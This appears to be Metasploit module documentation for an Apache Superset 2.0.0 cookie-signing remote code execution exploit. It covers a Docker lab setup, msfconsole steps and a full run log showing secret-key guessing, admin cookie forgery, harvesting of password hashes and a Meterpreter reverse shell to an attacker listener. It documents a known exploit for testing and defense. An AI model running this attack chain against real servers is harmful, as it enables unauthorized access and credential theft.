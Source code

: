 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

## App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'. Make a new user with 'Public' as the role.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_superset_cookie_sig_rce`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Apache Superset 2.0.0 on Docker

```
msf6 > use exploit/linux/http/apache_superset_cookie_sig_rce
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set username user
username => user
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set password user
password => user
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Attempting login
[*] Grabbing CSRF token
[*] 127.0.0.1:8088 - CSRF Token: ImFiOTFjYTQ2MjNjNzc1YjJlNmY2MThiYmFhZDk3OTI3NGUxYjVkNzci.ZQM-wQ.PuuU9Sr4i-3yGZq0UCnZBdk-qRA
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwlj8GKAzEMQ_8l5znYSWwn_ZnBTmx22dLCTHsq_fem7E0gPSS90h6Hnz_p8jievqX9d6ZLCpLGnbQCM40YAlqWnL1EgADkVpuiNCWehYoBUZRgbDnjqIgrTR5hWHBRkV1DI1AnUJ6NwRUdwEDZhXvg8obCpGGEQbWnLY3ziP1x__Pb2qPWV6ByLkOELDt_y8xUZ5eepToaTZHFXe9Dr76YBW7pefrxfymn9wfKmEMC.ZQM-wQ.d_0zXIowRPUN8ax8NylYPOlAuyk;
[*] 127.0.0.1:8088 - Checking secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[-] 127.0.0.1:8088 - Incorrect secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[*] 127.0.0.1:8088 - Checking secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - Modified cookie: {"_fresh"=>true, "_id"=>"f578695a40665cfc70a3066d93ff07002848a178a56d353b055f3f618221c411a305effb13166df2eafaff1ad052d860ea1e00b0a6e769f1ff1ca0d5cb51f549", "csrf_token"=>"ab91ca4623c775b2e6f618bbaad979274e1b5d77", "locale"=>"en", "user_id"=>1}
[*] 127.0.0.1:8088 - Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImY1Nzg2OTVhNDA2NjVjZmM3MGEzMDY2ZDkzZmYwNzAwMjg0OGExNzhhNTZkMzUzYjA1NWYzZjYxODIyMWM0MTFhMzA1ZWZmYjEzMTY2ZGYyZWFmYWZmMWFkMDUyZDg2MGVhMWUwMGIwYTZlNzY5ZjFmZjFjYTBkNWNiNTFmNTQ5IiwiY3NyZl90b2tlbiI6ImFiOTFjYTQ2MjNjNzc1YjJlNmY2MThiYmFhZDk3OTI3NGUxYjVkNzciLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZQM-wQ.lz1hKBJzLITRijnEdXS01xegiNE
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[*] Attempting to pull user creds from db
[+] Successfully created db mapping with id: 2
[*] Creating new sqllab tab
[+] Using tab: 1
[*] Setting latest query id
[*] Harvesting superset user creds
[+] Superset Creds
==============

  Username  Password
  --------  --------
  admin     $pbkdf2-sha256$260000$Q1hzYjU5dFNMWm05QUJCTg$s.vmjGlIV0ZKV1Sp3dTdrcn/i9CTqxPZ0klve4HreeU
  user      $pbkdf2-sha256$260000$azRXcXpkNVVOUjhtREkzUQ$0x2u615mTZUc1RTbFS07s8Io3IMSH4DAfzteN6YOctk

[*] Attempting RCE
[*] Creating new dashboard
[+] New Dashboard id: 1
[*] Grabbing permalink to new dashboard to trigger payload later
[+] Dashboard permalink key: KaJynrmk94N
[*] Setting latest query id
[*] Uploading payload
[*] Triggering payload
[*] Sending stage (24768 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 172.17.0.2:55878) at 2023-09-14 13:11:31 -0400
[*] Deleting dashboard
[*] Deleting sqllab tab
[*] Deleting database mapping

meterpreter > getuid
Server username: superset
meterpreter > sysinfo
Computer        : f253114ca039
OS              : Linux 6.4.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.4.11-1kali1 (2023-08-21)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
```

